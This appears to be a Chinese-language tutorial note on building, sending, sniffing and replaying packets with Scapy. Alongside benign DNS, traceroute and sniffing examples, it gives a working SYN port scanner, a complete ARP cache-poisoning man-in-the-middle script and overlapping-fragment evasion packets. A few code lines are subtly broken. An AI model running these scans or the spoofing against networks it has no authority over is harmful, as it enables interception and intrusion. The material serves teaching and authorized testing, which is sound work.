

---
tags:
  - network
  - protocol-analysis
  - tier3
  - scapy
  - python
  - packet-crafting
  - penetration-testing
---
# Scapy网络包构造与重放

> [!abstract] TL;DR
> Scapy 是 Python 生态中最强大的网络包构造框架，用 `/` 操作符叠加协议层，自动计算 checksum 和长度，一行代码即可构造任意网络报文并发送。支持 L2/L3 发送、嗅探、sr/sr1 收发配对，是协议研究、渗透测试辅助和自动化网络测试的首选工具。

## 概述与定位

Scapy 由 Philippe Biondi 以 Python 编写，将复杂的报文构造降低到"积木拼接"级别。与其他工具相比：

| 工具 | 定位 | 特点 |
|---|---|---|
| Wireshark | 被动捕获与分析 | 不能发包 |
| tcpdump | 命令行捕获过滤 | 不能发包 |
| nmap | 扫描（内置包构造） | 目的单一 |
| hping3 | 命令行包构造 | 功能有限 |
| **Scapy** | **完整包构造/发送/接收框架** | **Python 可编程，几乎无限制** |

**典型使用场景：**
- 协议研究：手工构造畸形报文测试服务器行为（Fuzzing）
- 渗透测试辅助：SYN 扫描、ARP 欺骗、ICMP traceroute
- 自动化网络测试：批量发包、收发配对验证协议逻辑
- pcap 分析与重放：读取 pcap 文件，选择性修改后重放

Scapy 的价值在于：它是协议测试的**最后一公里工具**——当你需要发送一个特定的、可能违反 RFC 规范的报文来测试服务器的边界行为时，任何"正常"的网络工具都会帮你"修正"这个畸形，只有 Scapy 允许你完全掌控每一个字节。

## 原理与机制

### `/` 操作符与层叠语义

Scapy 的核心设计是**层叠**：用 `/` 将各层协议对象拼接，模拟真实网络报文的封装结构：

```
Ethernet / IP / TCP / Raw(数据)
   L2  /  L3  / L4  / Payload
```

每一层都是 Python 对象，字段可通过关键字参数指定，未指定的字段由 Scapy 自动推导（`None` 或合理默认值）。`/` 操作符在 Scapy 内部是通过 `__div__` 和 `__rdiv__` 方法实现的，它将右侧的包对象附加到左侧包的 payload 位置，同时维护双向的 `underlayer`/`payload` 指针链，使得任意层都可以通过 `pkt[TCP]` 或 `pkt.getlayer(TCP)` 快速访问。

层叠时，Scapy 还会根据层间关系自动推断某些字段。例如，`IP() / TCP()` 时，Scapy 知道 IP 层的 `proto` 字段应当设置为 6（TCP 的协议号），即使你没有明确指定。这种"知情推断"是通过每个层的 `overloaded_fields` 属性实现的——下层在得知上层类型后，会自动覆盖相关字段的默认值。

### 字段的 machine 表示与 human 表示（i2m/m2i）

Scapy 的字段系统有一个重要的设计：每个字段维护**两套表示**——面向人类的 human representation（h）和面向机器的 machine representation（m）。对应的转换方法是 `i2m`（internal to machine）和 `m2i`（machine to internal）。

举个例子，`ShortEnumField` 类型的字段（如 `IP.proto`）在 Python 中以字符串形式显示（"tcp"），但在序列化为字节时转换为对应的数字（6）。`IPField` 存储的是 Python 字符串（"192.168.1.1"），序列化时通过 `socket.inet_aton` 转换为 4 字节大端二进制。这个设计使得用户代码可以用易读的形式设置字段，而 Scapy 在内部处理所有格式转换。

理解 i2m/m2i 对调试自定义协议层特别重要：当 `pkt.show()` 显示的值与你期望的不同时，原因可能是 human→machine 转换过程中有某个字段的 `i2m` 方法进行了额外处理（如字节序转换、编码映射）。

### 字段自动填充机制与 post_build

Scapy 在调用 `send()`/`sendp()` 前，会对以下字段进行**自动计算**：

| 字段 | 层 | 自动计算规则 |
|---|---|---|
| `len` | IP | IP 头 + 载荷总长度 |
| `chksum` | IP/TCP/UDP/ICMP | 对应伪头或完整头的校验和 |
| `seq`/`ack` | TCP | 不自动递增，需手动管理 |
| `hwsrc`/`hwdst` | Ethernet | `hwsrc` 使用出口接口 MAC |
| `src` | IP | 使用系统路由表确定的出口 IP |

自动计算是通过每个 Packet 类的 `post_build` 方法实现的。当包被序列化为字节时，Scapy 先将所有字段的当前值序列化（此时校验和字段可能是 0 或 None），然后调用 `post_build(raw_pkt, raw_payload)` 给每个层一个机会在序列化后修改字节内容。IP 层的 `post_build` 会计算 IP 校验和并写入对应偏移，TCP 层的 `post_build` 会计算包含伪头（源IP、目的IP、协议号、TCP长度）的校验和。

强制显示自动计算值：先 `pkt.show2()`（触发计算后显示），而非 `pkt.show()`（显示原始设定值）。

### L2 vs L3 发送函数的 socket 类型差异

| 函数 | 层级 | 底层 socket | 用途 |
|---|---|---|---|
| `send(pkt)` | L3（IP 层） | `AF_INET/SOCK_RAW` | 由 OS 路由表决定出口和 L2 封装 |
| `sendp(pkt)` | L2（Ethernet 层） | `AF_PACKET/SOCK_RAW`（Linux）<br>`BPF`（BSD/macOS） | 直接指定 MAC，用于 ARP 欺骗等 L2 操作 |
| `sr(pkts)` | L3 | `AF_INET/SOCK_RAW` | 发送并等待响应，返回 (answered, unanswered) |
| `sr1(pkt)` | L3 | `AF_INET/SOCK_RAW` | 发送并只返回第一个响应包 |
| `srp(pkt)` | L2 | `AF_PACKET` | L2 版 sr() |
| `srp1(pkt)` | L2 | `AF_PACKET` | L2 版 sr1() |

何时必须使用 L2（`sendp`/`srp`）：
- **ARP 操作**：ARP 是以太网协议，工作在 L2，没有 IP 头，`send` 无法处理
- **原始以太网帧**：需要精确控制以太网帧（如自定义以太网类型 EtherType 字段）
- **修改 MAC 地址**：`send` 的 L3 socket 会让 OS 使用自己的真实 MAC，无法伪造
- **非 IP 协议**：如 IPv6 Neighbor Discovery、802.1Q VLAN 标签等

L3 `send` 的好处是 OS 帮你处理路由和 ARP，不需要手动指定目标 MAC——适合大多数测试场景。

### sr/sr1/srp 的请求-响应匹配机制

`sr` 系列函数的核心挑战是：如何将收到的响应包与发出的请求包正确配对？Scapy 通过每个协议层实现 `answers` 方法来完成这一工作。以 IP/ICMP 为例，`ICMP.answers` 检查响应的 ICMP Echo Reply 的 `id` 和 `seq` 字段是否与请求的 Echo Request 匹配。以 IP/TCP 为例，`TCP.answers` 检查源端口/目的端口的镜像关系（响应的 `sport` == 请求的 `dport`，等等）。

对于批量发包（`sr(list_of_pkts)`），Scapy 内部维护一个待匹配队列，每收到一个响应包就遍历队列查找匹配的请求包，找到后移入已匹配列表（`answered`）。超时后剩余队列中的包进入 `unanswered` 列表。

## 结构/算法/伪代码详解

### 完整示例集

#### 示例1：TCP SYN 扫描

```python
from scapy.all import *

def syn_scan(target_ip, ports):
    """
    TCP SYN 扫描：发送 SYN 包，根据响应判断端口状态
    - SYN-ACK → 端口开放
    - RST-ACK → 端口关闭
    - 无响应 → 端口过滤
    """
    results = {}
    # 构造 SYN 数据包列表
    pkts = [IP(dst=target_ip) / TCP(dport=port, flags='S', sport=RandShort())
            for port in ports]

    # 批量发送，超时 2 秒
    answered, unanswered = sr(pkts, timeout=2, verbose=0)

    for sent, received in answered:
        port = sent[TCP].dport
        tcp_flags = received[TCP].flags if received.haslayer(TCP) else 0
        if tcp_flags & 0x12 == 0x12:  # SYN-ACK (0x02 | 0x10)
            results[port] = 'open'
            # 发送 RST 终止连接（避免 OS 发送 RST 干扰）
            send(IP(dst=target_ip) / TCP(dport=port, flags='R',
                                         sport=sent[TCP].sport,
                                         seq=sent[TCP].seq + 1), verbose=0)
        elif tcp_flags & 0x04:  # RST
            results[port] = 'closed'

    for sent in unanswered:
        results[sent[TCP].dport] = 'filtered'

    return results

# 使用示例（仅用于授权测试环境）
# results = syn_scan('192.168.1.1', [22, 80, 443, 8080])
# for port, state in sorted(results.items()):
#     print(f"  {port}/tcp  {state}")
```

#### 示例2：ARP 欺骗（ARP Cache Poisoning）

```python
from scapy.all import *
import time

def get_mac(ip):
    """通过 ARP 请求获取目标 MAC 地址"""
    arp_req = ARP(op=1, pdst=ip)  # op=1: ARP Request
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    answered, _ = srp(broadcast / arp_req, timeout=1, verbose=0)
    if answered:
        return answered[0][1].hwsrc
    return None

def arp_poison(target_ip, gateway_ip, interval=2):
    """
    ARP 欺骗：告诉 target_ip "gateway_ip 的 MAC 是我"
    同时告诉 gateway_ip "target_ip 的 MAC 是我"
    使双向流量都经过本机（MITM 位置）
    """
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)

    if not target_mac or not gateway_mac:
        print("[-] 无法获取 MAC 地址，退出")
        return

    print(f"[+] 开始 ARP 欺骗")
    print(f"    目标: {target_ip} ({target_mac})")
    print(f"    网关: {gateway_ip} ({gateway_mac})")

    # 构造欺骗包（op=2: ARP Reply）
    # 告诉 target: gateway 的 MAC 是我
    pkt_to_target = ARP(op=2, pdst=target_ip, hwdst=target_mac,
                         psrc=gateway_ip)
    # 告诉 gateway: target 的 MAC 是我
    pkt_to_gateway = ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac,
                          psrc=target_ip)
    try:
        while True:
            send(pkt_to_target, verbose=0)
            send(pkt_to_gateway, verbose=0)
            time.sleep(interval)
    except KeyboardInterrupt:
        print("\n[+] 恢复 ARP 表...")
        # 发送真实 ARP 恢复双方 ARP 缓存
        restore_target = ARP(op=2, pdst=target_ip, hwdst=target_mac,
                              psrc=gateway_ip, hwsrc=gateway_mac)
        restore_gateway = ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac,
                               psrc=target_ip, hwsrc=target_mac)
        send(restore_target, count=5, verbose=0)
        send(restore_gateway, count=5, verbose=0)
```

#### 示例3：DNS 查询构造

```python
from scapy.all import *

# 构造 DNS A 查询
def dns_query(domain, server='8.8.8.8', qtype='A'):
    pkt = IP(dst=server) / UDP(dport=53) / \
          DNS(id=RandShort(), rd=1, qd=DNSQR(qname=domain, qtype=qtype))
    resp = sr1(pkt, verbose=0, timeout=2)
    if resp and resp.haslayer(DNS):
        return resp[DNS]
    return None

# 示例：批量 DNS 查询并解析 A 记录
domains = ['google.com', 'github.com', 'example.com']
for domain in domains:
    result = dns_query(domain)
    if result and result.ancount > 0:
        answers = []
        rr = result.an
        while rr:
            if hasattr(rr, 'rdata'):
                answers.append(str(rr.rdata))
            rr = rr.payload if hasattr(rr, 'payload') else None
        print(f"{domain} -> {', '.join(answers)}")
```

#### 示例4：ICMP Traceroute

```python
from scapy.all import *

def icmp_traceroute(target, max_ttl=30, timeout=2):
    """
    用 ICMP Echo Request 实现 traceroute
    每个 TTL 值触发不同路由器返回 ICMP TTL Exceeded
    """
    print(f"Traceroute to {target} (max {max_ttl} hops):")
    for ttl in range(1, max_ttl + 1):
        pkt = IP(dst=target, ttl=ttl) / ICMP()
        reply = sr1(pkt, verbose=0, timeout=timeout)

        if reply is None:
            print(f"  {ttl:2d}  * * *  (no response)")
        elif reply.haslayer(ICMP):
            icmp_type = reply[ICMP].type
            src_ip = reply[IP].src
            rtt = (reply.time - pkt.sent_time) * 1000  # ms

            if icmp_type == 11:  # TTL Exceeded
                print(f"  {ttl:2d}  {src_ip}  {rtt:.2f} ms")
            elif icmp_type == 0:  # Echo Reply（到达目标）
                print(f"  {ttl:2d}  {src_ip}  {rtt:.2f} ms  [目标]")
                break
```

#### 示例5：pcap 重放与修改

```python
from scapy.all import *

# 读取 pcap 文件
pkts = rdpcap('original.pcap')
print(f"共 {len(pkts)} 个数据包")

# 过滤 HTTP 请求包（TCP 目标端口 80）
http_pkts = [p for p in pkts if p.haslayer(TCP) and p[TCP].dport == 80]
print(f"HTTP 包: {len(http_pkts)} 个")

# 修改目标 IP 并重放
modified_pkts = []
for pkt in http_pkts:
    new_pkt = pkt.copy()
    if new_pkt.haslayer(IP):
        new_pkt[IP].dst = '192.168.1.100'  # 修改目标 IP
        del new_pkt[IP].chksum           # 删除校验和，触发自动重算
        del new_pkt[TCP].chksum
    modified_pkts.append(new_pkt)

# 保存修改后的 pcap
wrpcap('modified.pcap', modified_pkts)

# 重放（按原始时间间隔）
sendp(modified_pkts, inter=0.01, verbose=1)
```

#### 示例6：AsyncSniffer 异步嗅探

```python
from scapy.all import AsyncSniffer
import time

# 启动异步嗅探（不阻塞主线程）
sniffer = AsyncSniffer(
    filter='tcp port 80 or tcp port 443',
    prn=lambda pkt: print(f"[{pkt.time:.3f}] {pkt.summary()}"),
    store=True  # 存储捕获的包
)

sniffer.start()
print("嗅探已启动，主线程继续执行...")

# 主线程做其他工作
time.sleep(10)

# 停止嗅探并获取结果
sniffer.stop()
captured = sniffer.results
print(f"\n共捕获 {len(captured)} 个包")

# 保存捕获结果
wrpcap('async_capture.pcap', captured)
```

#### 示例7：自定义协议层定义

```python
from scapy.all import *

# 自定义私有协议（假设：4字节魔数 + 2字节消息类型 + 2字节长度）
class MyProto(Packet):
    name = "MyProto"
    fields_desc = [
        StrFixedLenField("magic", b"MYPR", 4),     # 4 字节魔数
        ShortEnumField("msg_type", 0, {             # 2 字节消息类型
            0: "PING",
            1: "PONG",
            2: "DATA",
            3: "ACK"
        }),
        LenField("length", None, fmt="H"),          # 2 字节长度（自动计算载荷长度）
    ]

# 将自定义协议绑定到 UDP 目标端口 9999
bind_layers(UDP, MyProto, dport=9999)

# 构造自定义协议包
pkt = IP(dst="127.0.0.1") / UDP(dport=9999) / MyProto(msg_type=0) / Raw(b"hello")
pkt.show()

# 解析收到的包（绑定后自动识别）
raw_data = bytes(pkt)
parsed = IP(raw_data)
print(parsed[MyProto].msg_type)  # 0 -> PING
```

## 工具视角与实战

### Scapy 交互式 Shell

```bash
# 启动 Scapy（需 root/管理员权限以发送原始包）
sudo scapy

# 常用交互命令
>>> ls()                    # 列出所有支持的协议层
>>> ls(TCP)                 # 显示 TCP 层的所有字段
>>> lsc()                   # 列出所有内置命令
>>> pkt = IP()/TCP()        # 构造包
>>> pkt.show()              # 显示包结构
>>> pkt.show2()             # 显示计算后的字段值
>>> hexdump(pkt)            # 十六进制转储
>>> pkt.summary()           # 单行摘要
>>> wireshark([pkt])        # 在 Wireshark 中可视化（需安装 Wireshark）
>>> traceroute("8.8.8.8")   # 内置 traceroute
>>> arping("192.168.1.0/24") # ARP 扫描整个子网
```

### Wireshark 集成

```python
from scapy.all import *

# 从 Wireshark 导出的十六进制数据构造 Scapy 包
raw_hex = "4500003c1c4640004006b1b20a0002010a000202"
pkt = IP(bytes.fromhex(raw_hex))

# 将 Scapy 包送入 Wireshark 可视化
pkts = [IP()/(TCP(dport=p) for p in [80, 443, 8080])]
wireshark(pkts)
```

### 畸形包与协议健壮性测试

Scapy 在授权测试中的一个重要用途是构造**畸形包**以测试协议解析器的健壮性。例如：

- **IP 分片重叠测试**：构造两个 IP 分片，使得重组后的数据在重叠区域存在矛盾内容，不同操作系统/防火墙的处理策略不同，历史上产生过 IDS 规避攻击
- **TCP 选项字段溢出**：构造超长或格式错误的 TCP 选项，测试接收方的解析鲁棒性
- **DNS 报文压缩指针循环**：构造循环指针（如 offset 指向自己），测试 DNS 解析器是否有无限循环防护

```python
# 构造 IP 分片重叠包（协议健壮性测试，授权环境）
# 分片1：偏移 0，数据 "AAAA"
frag1 = IP(dst="192.168.1.100", id=1234, flags="MF", frag=0) / Raw(b"AAAA" * 4)
# 分片2：偏移 2（以8字节为单位，即字节偏移 16），与分片1 重叠
frag2 = IP(dst="192.168.1.100", id=1234, flags=0, frag=2) / Raw(b"BBBB" * 4)
# 注：此操作仅用于理解协议行为，不得用于攻击生产系统
```

### tshark 与 Scapy 联动

```bash
# 实时捕获转 Scapy 处理（管道方式）
tshark -i eth0 -w - 2>/dev/null | python3 -c "
from scapy.all import *
import sys

pkts = rdpcap(sys.stdin.buffer)
for pkt in pkts:
    if pkt.haslayer(DNS):
        print(f'DNS: {pkt[DNS].qd.qname if pkt[DNS].qd else \"response\"}')"
```

## 安全性与正确使用

### 法律边界

> [!warning] 授权要求
> Scapy 的发包功能（`send`/`sendp`/`sr`/`srp`）属于**主动行为**，向未授权目标发送以下类型的包可能构成违法：
> - SYN 扫描（未授权的端口扫描）
> - ARP 欺骗（网络欺骗/劫持）
> - SYN 洪水（DoS 攻击）
> - DNS 放大攻击（DDoS 攻击）
>
> 合法使用场景：自有网络测试、CTF 比赛环境、已获授权的渗透测试项目。

### 发包安全实践

```python
# 安全实践：发包前确认目标
TARGET_IP = "192.168.100.100"  # 测试靶机 IP
assert TARGET_IP.startswith("192.168.") or \
       TARGET_IP.startswith("10.") or \
       TARGET_IP.startswith("172."), \
    "严禁向公网 IP 发送测试包！"

# 限制发包速率，避免意外 DoS
send(pkts, inter=0.1, verbose=1)  # 每包间隔 0.1 秒

# 使用 checkSumCalc 前先检查包是否合理
pkt = IP(dst=TARGET_IP)/TCP(dport=80, flags='S')
assert pkt[IP].dst == TARGET_IP, "目标 IP 设置异常"
```

## 小结

Scapy 的核心价值在于将复杂的网络包构造降低为 Python 对象操作。`/` 操作符的层叠语义直观映射网络协议的封装关系，其背后的 `__div__`/`underlayer`/`payload` 指针链机制使层间导航高效自然。字段的 human/machine 双表示（i2m/m2i）设计让用户代码保持可读性，同时保证序列化时的精确控制。`post_build` 机制使得校验和自动计算透明，需要手动控制时删除对应字段即可触发重算。L2/L3 发送函数的 socket 类型差异（`AF_PACKET` vs `AF_INET SOCK_RAW`）决定了发包的能力边界：L3 靠 OS 路由、L2 完全自主控制以太网帧。`sr/sr1/srp` 的匹配机制通过各层的 `answers` 方法实现协议感知的收发配对，是自动化协议测试的基础。AsyncSniffer 补全了嗅探场景中的非阻塞需求，自定义协议层定义通过 `fields_desc` 和 `bind_layers` 则使 Scapy 能处理任意私有协议——从代码手册到原理透视，Scapy 的每个 API 背后都有清晰的设计意图。

## 相关阅读

- [[09.移动端抓包Android与iOS|← ch09：移动端抓包Android与iOS]]
- [[11.Zeek协议分析框架|→ ch11：Zeek协议分析框架]]
- [[12.流量特征分析与检测绕过|→ ch12：流量特征分析与检测绕过]]
- Scapy 官方文档: https://scapy.readthedocs.io/
- Scapy GitHub: https://github.com/secdev/scapy



[[00.抓包与协议分析实战总览|⬆ 系列总览]] | [[09.移动端抓包Android与iOS|← 上一章]] | [[11.Zeek协议分析框架|→ 下一章]]
